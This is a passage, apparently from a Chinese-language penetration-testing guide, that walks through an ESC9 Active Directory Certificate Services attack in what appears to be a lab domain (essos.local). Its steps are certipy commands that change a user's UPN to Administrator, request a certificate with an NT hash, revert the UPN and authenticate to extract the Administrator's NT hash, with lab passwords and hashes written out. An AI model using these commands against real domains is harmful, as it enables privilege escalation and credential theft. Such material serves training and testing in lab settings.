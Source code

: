     ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn Administrator
    ```

1.  使用 ESC9 易受攻击模板以`viserys.targaryen`身份请求证书：

    ```
    certipy req -username 'viserys.targaryen@essos.local' -hashes 'd96a55df6bef5e0b4d6d956088036097' -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC9
    ```

1.  将`viserys.targaryen`的 UPN 更改回原始值：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn viserys.targaryen@essos.local
    ```

1.  通过 nPAC-the-hash 获取管理员的 NT 哈希：

    ```
    certipy auth -pfx 'administrator.pfx' -domain 'essos.local'
    ```

攻击结果如下截图所示：
